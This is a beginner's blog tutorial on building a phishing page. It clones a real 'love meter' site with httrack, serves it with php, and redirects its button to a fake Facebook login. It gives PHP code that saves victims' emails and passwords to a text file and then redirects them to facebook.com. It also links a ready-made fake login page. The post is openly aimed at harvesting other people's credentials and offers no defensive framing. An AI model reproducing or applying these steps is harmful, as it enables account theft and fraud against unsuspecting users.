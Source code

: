 ```yaml
---
layout: post
title: Create Our Own Phising Page
cover-img: "/assets/img/2021/2021-04-01/cover-1.jpeg"
tags: [hack, termux, phising]
---
```

As a noob if you are having hard time to create your own phising page then this guide is only for you :)

### Requirements :
- Termux Or Any Linux (I am using Termux)
- Some basics knowledge of commands
- Common sense

### Steps :
1. First of all you will have to install a package `httrack`.
```bash
apt install httrack
```
2. Ok lets choose our favorite webpage from internet or google. For example i searched a keyword "lovemeter" on google and got some cool results.

    <img src="/assets/img/2021/2021-04-01/01.jpg" width="90%">  
3. Then i opened very first result and saw very beautiful receipie for my Dish **Phising**.
    <img src="/assets/img/2021/2021-04-01/02.jpg" width="90%">
4. Ok i love it and copied URL & now want to clone it for my phising business so now it's time to use my weapon **httrack**. Here is simple command to clone my desired webpage 

    ```bash
    httrack https://www.prokerala.com/entertainment/love-meter/
    ```
well done httrack! i just got a new folder with name **www.prokerala.com** where all html files cloned. See what i got in my current directory. ( Note that your cloned website is only placed in **www.prokerala.com** folder , rest all things are related to httrack's own purpose )

    <img src="/assets/img/2021/2021-04-01/03.jpg" width="90%">
5. Now just run a local server to serve our new cloned website , well i am using php here but you can use whatever you like for hosting our site. In case you don't have **php** installed then just do `apt install php`

    ```bash
    # -n means no special configuration files used
    # -S <addr>:<port> ; will serve the index.html file from current directory
    cd www.prokerala.com/entertainment/love-meter
    php -n -S 127.0.0.1:8080
    ``` 

6. Now navigate to `http://127.0.0.1:8080` and you will see like this
    <img src="/assets/img/2021/2021-04-01/04.jpg" width="90%">

7. Ok all looks good but now i want that when my victim will click on **Calculate Love %** button, he will be redirected to my second phising page ( that phising page can be Facebook login , Instagram Login or Any Login Page ). Let's change behaviour of Button. Well we can see that button is a submit button of `<form>` element. I just searched for a keyword **Calculate Love %** in `index.html` file and after some scrolling i saw `<form>` element with `action=...`
    <img src="/assets/img/2021/2021-04-01/05.jpg" width="90%">
Just change the `action` value to any valid html or php file like `action="fblogin.html"` and yes make sure there is a file `fblogin.html` in same directory as cloned site. Then after pressing button , he will be redirected to `http://127.0.0.1:8080/fblogin.html` where `fblogin.html` is your fake Facebook Login Page ( You can clone facebook too )

### Some Tips :
* After cloning any social Login Page you can search for a word `action=` where you can change the value of `action`. Here is my php code i saved it with name `login.php` and edited **action** to `action="/login.php"` in my cloned Facebook ( everything is in same directory ).
```php
<?php                                                  
    if (isset($_POST['login'])) {                      
        $email = $_POST['uname'];                      
        $pass = $_POST['pwd'];                         
        $fp = fopen('credentials.txt', 'a');
        fwrite($fp, " ".$email.' = ');
        fwrite($fp, $pass." ");
        fclose($fp);                                   
        ?>
        <script>window.alert('Bhadhayi ho tumhe pyar ho gya hai 100%');
        </script>
        <script>window.location="https://facebook.com";</script> 
<?php                                                  
    }                                                   ?>
```
After login a new file will be created with name `credentials.txt` where credentials will be saved. Well i am also giving my Facebook login page on [Pastebin](https://pastebin.com/tEQHSLtv) which is a single All-In-One file.

* You can always adjust depthness of cloning by using flag `--depth=N` where `N` is level of depthness. Why we need this ? Well fortunately the website i cloned was simple and contains html files but what when website contains many external CSS files for styling ? then you will have to adjust depthness of cloning to clone **CSS** files , assets like images etc. We need this option also when we don't want to clone whole website but only some portion of it. The higher number `N` , the more deep cloning will be done.

    ```bash
    httrack --depth=1 https://wwww.website.com/ 
    ```
